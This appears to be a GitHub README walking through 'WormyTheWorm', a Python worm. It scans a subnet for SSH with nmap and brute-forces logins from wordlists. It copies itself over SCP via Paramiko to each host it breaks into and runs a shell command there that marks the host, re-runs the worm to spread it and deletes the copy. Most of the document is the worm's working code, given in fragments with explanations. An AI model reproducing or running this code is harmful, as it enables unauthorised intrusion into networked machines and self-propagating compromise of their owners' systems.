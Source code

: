 # WormyTheWorm
___

## Summary: 
> A Python worm that scans & infects a given subnet while replicating itself. 
> Below is a breakdown of the code, including screenshots & descriptions of the processes used. (WormyTheWorm.py)

## Table of Contents
- [Dependencies](#dependencies)
- [NMAP](#nmap)
- [Brute Force](#brute-force) 
- [SSH and Paramiko](#ssh-and-paramiko)
- [Try/Except loop for SSH & SCP via Paramiko](#try-except-loop-for-SSH-and-SCP-via-Paramiko)
- [Output](#output)
___
## Dependencies 
&NewLine; 
```sh
import nmap
import paramiko
import sys
from scp import SCPClient
```

The functions above must be installed on the local machine for the program to run successfully. Run the 3 commands below to install each successfully. 

**Pip:**
```sh
sudo apt install python3-pip
```
**NMap:**
```sh
sudo apt-get install nmap
```
**Requirements:**

Download the configuration file called **requirements.txt** from this repository, move it to your current directory, then run the following command:
```sh
pip install -r requirements.txt
```

## NMap

NMap is used to scan a given subnet & return all host IPs on the network. 

**NMap Explained**

1. A variable is defined that calls the port scanner method. 
2. **The target subnet is identified - the default port will always be 22 for SSH utilization.**
3. The command line method is initialized. 
```sh
nmScan = nmap.PortScanner()
nmScan.scan('10.0.0.0/24', '22')
nmScan.command_line()
```
1. A list called "networkhosts" is defined, which will contain the IPv4 addresses located on the subnet. 
2. A "for" loop is intialized. This loop iterates through all hosts & stores them via the append method in "networkhosts", defined above. 
```sh
networkhosts = []
for host in nmScan.all_hosts():
    networkhosts.append(host)
print(networkhosts)
```
3. "networkhosts" is printed out on the command line, showing us the list of IPv4 addresses on our subnet.

![IPs on the subnet](./printedipv4.png)

## Brute Force 

The brute force method of username / password cracking takes predefined wordlists & runs all possible combinations against a log-in barrier. The size of the wordlist will effect the success rate, but increased wordlist length correlates to an increase in time. In our example code, small wordlists of four usernames & four passwords are defined for the sake of time, but could be substituted for a longer list (such as rockyou.txt) using the path provided below: 
```sh
/usr/share/wordlists/rockyou.txt
```
The variables used by SSH/Paramiko (explained in further section) are defined in a "for" loop that will ultimately iterate through each host previously amended to "networkhosts". 
```sh
for element in networkhosts:
    host = element
    port = 22
```
The wordlists referenced above are also defined. 
```sh
usernames = ['sam','gavin','stephen','devon']
passwords = ['admin','stephen','penelope','password']
```

## SSH and Paramiko

Paramiko is Python's implementation of SSHv2 proctocol and is the crux of WormyTheWorm's ability to infiltrate hosts on a local network. 

First, two subsequent "for" loops utilize the word lists defined in the "Brute Force" section above. Each "for" loop combination contains a different combination of "users" & "pwords", and SSH is attempted via Paramiko using each one. The variables "username" and "password", which are native to Paramiko, are defined. 

```sh
for user in usernames:
        for pword in passwords:
            username = user
            password = pword
```
Next, the "command" variable is defined. This sequence is executed via the target machine's command line once SSH connection is established. This command in particular performs the following:

   First, it checks to see if the machine has been infected by looking for a hidden file called ".WormyIsHiding" that is created by the script below.
   **The next few commands will only get executed if the hidden file is not present on the machine.**
 
   1. ".WormyIsHiding", a hidden file, is created on the target machine.
   2. WormyTheWorm is executed - this is how the worm replicates. Identical code will be executed on the target machine, and the process will begin anew. 
7. A file called "WormyWuzHere" is created. 
8. The line "Haha no code for you :)" is written to the file above. 
9. WormyTheWorm gets deleted.
```sh
command = "if [ ! -f .WormyIsHiding ]; then touch .WormyIsHiding && touch 'WormyWuzHere' && echo 'Haha no code for you :)' > WormyWuzHere && ./WormyTheWorm 2> /tmp/output.log; fi && rm -f WormyTheWorm"
```
The first line of the code below creates a new SSHCLient, and the second line allows the script to SSH to a remote server with unknown SSH keys. 
```sh
ssh = paramiko.SSHClient()
            ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy()
```
## Try Except loop for SSH and SCP via Paramiko

A "try block" & an "except block" are used to set a timeout limit & an appropriate response, to increase the speed of Wormy as a whole. 

Within the "try block" the following occurs (in order):
1. ssh.connect is initialized, utlizing the previously defined username, password, and host variables. The timeout is set at 5 seconds. 
2. SCP variable is defined intliazed using the SCPClient via a get_transport request. This allows the WormyTheWorm file to be transported to the host machine in preparation for execution & replication. 
3. An SCP put request that references the first item on the command line (WormyTheWorm executable) is inialized. This step places the file onto to the target machine. 
4. The previously defined command in executed on the target machine. 
5. If the above works as it should within the time limit, a message displaying the host IP & "Success :)" will be displayed. 
```sh
 try:
        ssh.connect(host, port, username, password, timeout=5)
        scp = SCPClient(ssh.get_transport())
        scp.put(sys.argv[0])
        stdin, stdout, stderr = ssh.exec_command(command)
        print(host + ' Success :)')
```
Within the "except block" the following occurs:
1. If the "try block" is unsuccessful, a message displaying the host IP & "Timeout :(" will be displayed. 
```sh
 except:
        print(host + ' Timeout :(')
```

## Output

The command line on the attacker's machine shows us a log of each attempt to **gain access to a target using a specific username and password combination.** The image below shows a portion of that log.

![output log](./log.png)

After the success on 10.0.0.154, Wormy attempts to brute force 10.0.0.188, the next target.

After the script runs, the ```ls``` command on the target machines' terminals will show if the attack was successful. If it was, "WormyTheWorm" will be included in the output. (```ls``` shows all of the files in the current directory; right after a login, ```ls``` refers to the home directory).

![wormy ls](./lswithwormy.png)

Once WormyTheWorm copies itself onto another machine, it will automatically run again. Once it finishes, it will remove itself from the machine, and create "WormyWuzHere" in the same directory. Once again, ```ls``` will show if the script ran successfully.

![wormy's tracks](./wormtracks.png)










